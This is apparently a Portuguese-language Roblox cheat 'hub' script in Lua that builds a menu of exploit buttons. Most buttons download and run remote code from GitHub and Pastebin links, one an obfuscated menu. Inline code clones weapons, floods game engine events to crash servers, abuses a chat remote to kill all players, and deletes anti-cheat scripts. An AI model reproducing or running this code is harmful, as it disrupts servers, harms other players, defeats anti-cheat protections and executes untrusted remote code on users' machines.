 local OrionLib = loadstring(game:HttpGet(('https://raw.githubusercontent.com/shlexware/Orion/main/source')))()

local Window = OrionLib:MakeWindow({Name = "Hyper Hub", HidePremium = false, SaveConfig = true, ConfigFolder = "Hyper", IntroEnabled = false})

local JogadorTab = Window:MakeTab({
	Name = "Jogador",
	Icon = "rbxassetid://4483345998",
	PremiumOnly = false
})

local Section = JogadorTab:AddSection({
	Name = "Hub"
})

local OrionLib = loadstring(game:HttpGet(('https://raw.githubusercontent.com/shlexware/Orion/main/source')))()

local Window = OrionLib:MakeWindow({Name = "Hyper Hub", HidePremium = false, SaveConfig = true, ConfigFolder = "Hyper", IntroEnabled = false})

local JogadorTab = Window:MakeTab({
	Name = "Jogador",
	Icon = "rbxassetid://4483345998",
	PremiumOnly = false
})

local Section = JogadorTab:AddSection({
	Name = "Escolha Um Script"
})

JogadorTab:AddButton({
	Name = "Infinite Yield",
	Callback = function()
        loadstring(game:HttpGet('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'))()
  	end    
})

JogadorTab:AddButton({
	Name = "Orca",
	Callback = function()
        loadstring(game:HttpGet(('https://raw.githubusercontent.com/richie0866/orca/master/public/latest.lua'),true))()
  	end    
})

JogadorTab:AddButton({
	Name = "Dex Explorer",
	Callback = function()
        loadstring(game:HttpGet(('https://pastebin.com/raw/Ht4zRXj8'),true))()
  	end    
})

JogadorTab:AddButton({
	Name = "Felipe Menu",
	Callback = function()
        loadstring(game:HttpGet('https://raw.githubusercontent.com/DebugCrazY/FMobfuscated/main/fm.lua'))()
  	end    
})

local JogadorTab = Window:MakeTab({
	Name = "Aimbot",
	Icon = "rbxassetid://4483345998",
	PremiumOnly = false
})

local Section = JogadorTab:AddSection({
	Name = "Escolha Um Script"
})


JogadorTab:AddButton({
	Name = "Aimbot V1",
	Callback = function()
        loadstring(game:HttpGet("https://raw.githubusercontent.com/CriShoux/OwlHub/master/OwlHub.txt"))();
  	end    
})

JogadorTab:AddButton({
	Name = "Aimbot V2",
	Callback = function()
        loadstring(game:HttpGet('https://raw.githubusercontent.com/fatesc/fates-esp/main/main.lua'))()
  	end    
})

JogadorTab:AddButton({
	Name = "Aimbot V3",
	Callback = function()
        loadstring(game:HttpGet('https://pastebin.com/raw/GzchSUkb'))()
  	end    
})

local JogadorTab = Window:MakeTab({
	Name = "Puxar Armas",
	Icon = "rbxassetid://4483345998",
	PremiumOnly = false
})

local Section = JogadorTab:AddSection({
	Name = "Escolha Um Script"
})

JogadorTab:AddButton({
	Name = "Hub Puxar Armas",
	Callback = function()
        loadstring(game:HttpGet('https://pastebin.com/raw/P07XWPCg'))()
  	end    
})

JogadorTab:AddButton({
	Name = "Clonar Armas",
	Callback = function()
        for i, v in pairs(game:GetDescendants()) do
            if v:IsA('Tool') then
                v.Parent = game:GetService('Players').LocalPlayer.Backpack
            end
        end
        
        game:GetService('Players').LocalPlayer.Character.Humanoid.Died:Connect(function()
            for i, v in pairs(game:GetService('Players').LocalPlayer.Backpack:GetDescendants()) do
                if v:IsA('Tool') then
                    v.Parent = game:GetService('Teams')
                end
            end
            for i, v in pairs(game:GetService('Players').LocalPlayer.Character:GetDescendants()) do
                if v:IsA('Tool') then
                    v.Parent = game:GetService('Teams')
                end
            end
        end)
  	end    
})

local JogadorTab = Window:MakeTab({
	Name = "Troll",
	Icon = "rbxassetid://4483345998",
	PremiumOnly = false
})

local Section = JogadorTab:AddSection({
	Name = "Escolha Um Script"
})

JogadorTab:AddButton({
	Name = "Crash Server Acs 1.7.5",
	Callback = function()
        L = 20

local event = game.ReplicatedStorage.ACS_Engine.Eventos.Hit
local base = workspace:FindFirstChildOfClass("Part")
local data

for i,v in game:GetDescendants() do
    if v:IsA("Tool") and v:FindFirstChild("ACS_Modulo") then
        data = require(v.ACS_Modulo.ACS_Setup); break
    end
end

shared.loop = not shared.loop
while shared.loop do
    for i = 1, L do
        event:FireServer(base.Position, base, Vector3.new(), Enum.Material.Neon, data)
    end
    task.wait()
end
  	end    
})

JogadorTab:AddButton({
	Name = "Crash Server Acs 2.0.1",
	Callback = function()
        while task.wait() do

            for _, player in next, game.Players:GetPlayers() do
               game:GetService("ReplicatedStorage")["ACS_Engine"].Events.Suppression:FireServer(player, 666, 666, 666)
            end
          end
  	end    
})

JogadorTab:AddButton({
	Name = "Kill All",
	Callback = function()
        DAMAGE = 100
local event = game.ReplicatedStorage.ChatSystemGetMessage

function damage(hum, thr)
    pcall(event.InvokeServer, event, "hit", "}, {  ", DAMAGE, hum, "", 1.5)
    coroutine.resume(thr, hum.Parent)
end

for i,v in game.Players:GetPlayers() do
    local hum = v.Character and v.Character:FindFirstChild("Humanoid")
       if hum and event then
       task.spawn(damage, hum, coroutine.running())
      end
end
  	end    
})

local JogadorTab = Window:MakeTab({
	Name = "EB",
	Icon = "rbxassetid://4483345998",
	PremiumOnly = false
})

local Section = JogadorTab:AddSection({
	Name = "Escolha Um Script"
})

JogadorTab:AddButton({
	Name = "Pegar Carros Eb Do Tevez",
	Callback = function()
        loadstring(game:HttpGet("https://pastebin.com/raw/kSaMJ2Cn", true))()                                 
  	end    
})

JogadorTab:AddButton({
	Name = "Bypass Eb Do Tevez",
	Callback = function()
        local player = game.Players.LocalPlayer

        local function destroyLocalScripts(player)
            local character = player.Character
            if character then
                local descendants = character:GetDescendants()
                for i, v in ipairs(descendants) do
                    if v:IsA("LocalScript") and v.Name:match("{") then
                        v:Destroy()
                    end
                end
            end
        end
        destroyLocalScripts(player)
        
        game:GetService('Players').LocalPlayer.Character.Humanoid.Died:Connect(function()
        destroyLocalScripts(player)
        end)                            
  	end    
})

JogadorTab:AddButton({
	Name = "Auto jjs-@Zv_yz",
	Callback = function()
        local Options = {
            Keybind = 'Home', --> Keybind para mostrar/esconder a UI, mais informações sobre KeyCode: https://create.roblox.com/docs/reference/engine/enums/KeyCode
            Tempo = 2.5, --> Tempo para enviar mensagem.
            Language = 'pt-br', --> Alterar a linguagem dos textos, disponívels: pt-br, en-us
            Rainbow = false, --> Deixar a UI mais colorida (true/false)
        };
        loadstring(game:HttpGet('https://raw.githubusercontent.com/Zv-yz/AutoJJs/main/Main.lua'))(Options);                        
  	end    
})
